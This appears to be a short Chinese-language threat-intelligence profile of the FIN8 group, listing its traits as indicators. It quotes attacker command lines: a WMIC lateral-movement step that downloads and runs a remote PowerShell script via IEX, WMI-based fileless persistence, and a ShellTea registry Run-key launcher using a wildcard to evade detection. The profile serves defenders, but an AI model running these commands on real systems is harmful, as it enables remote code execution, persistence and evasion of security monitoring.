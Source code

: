 # FIN8

## 特征

1. 横向移动时使用WMI进行远程命令执行:wmic.exe /node:<target> process call create "cmd /c powershell.exe -nop -ep bypass -c $pw='b640a9c0e64704e1e202a07774613a29971fe5aa';$pa='sys';iex (New-Object System.Net.WebClient).DownloadString('https://Url地址/134af6')"，其中$pw用来解密下载的脚本文件，$pa为模拟令牌说明，会注入svchost.exe -k netsvcs运行的进程，最后通过IEX下载文件.

2. 通过WMI创建触发器来保持持久性，使用命令:cmd.exe /Q /c powershell.exe -nop -ep bypass -c C:\sldr.ps1 B4a0f3AE251b7689CFdDe1 1> \\127.0.0.1\ADMIN$\__1621898828.3311949 2>&1在WMI中创建三个对象来保证持久。sldr.ps1脚本包含了一个RC4加密的字符串，B4a0f3AE251b7689CFdDe1则为解密的密钥.其中创建的第二个对象会通过无文件的方式加载到内存中，并通过StartCheck()执行静态方法powershell.exe -nop -c [System.Reflection.Assembly]::Load(([WmiClass]'root\cimv2:Win32_Base64Class').Properties['Prop'].Value);[MSDAC.PerfOSChecker]::StartCheck().

3. ShellTea恶意软件会在注册表HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run中存在，而且会滥用通配符使其匹配Software降低检测.

```bash
"C:\\Windows\\System32\\cmd.exe '/c' 'powershell.exe' '-w' '1' '-nop' '-c ' 'start-process powershell.exe -windowstyle hidden -arg '-nop -c $a=(Get-ItemProperty registry::HKCU\\S???ware\\Fpkakesude);IEX $a.Xshuzugewogazi ' '"
```
